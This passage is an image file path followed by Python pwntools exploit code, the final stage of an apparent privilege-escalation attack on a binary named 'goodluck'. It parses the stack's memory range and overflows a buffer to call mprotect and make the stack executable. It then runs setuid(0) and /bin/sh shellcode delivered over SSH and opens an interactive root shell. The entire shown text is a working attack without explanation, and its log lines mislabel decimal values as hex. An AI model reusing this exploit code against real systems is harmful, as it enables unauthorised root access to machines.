 ```
stack_start, stack_end = (int(x, 16) for x in re.search(r'\n([0-9a-f]{8})-([0-9a-f]{8}) rw-p 00000000 00:00 0          \[stack\]\n', resp).groups())
log.success(f'Address of next buffer: 0x{buff_addr}')
log.success(f'Stack address space: 0x{stack_start} - 0x{stack_end}')

## Stage 3 - Shell
mprotect = 0xb7efcd50
size = stack_end - stack_start
shellcode = asm(shellcraft.setuid(0) + shellcraft.execve('/bin/sh'))

payload =  shellcode
payload += b"A" * (76 - len(shellcode))
payload += p32(mprotect)
payload += p32(buff_addr)
payload += p32(stack_start)
payload += p32(size)
payload += p32(7)
log.info(f'Writing Stage 3 exploit to {fn}')
sshConn.upload_data(payload, fn)

goodluck.sendline(fn)
log.info(f'Cleaning up {fn}')
sshConn.unlink(fn)
goodluck.interactive(prompt='')

```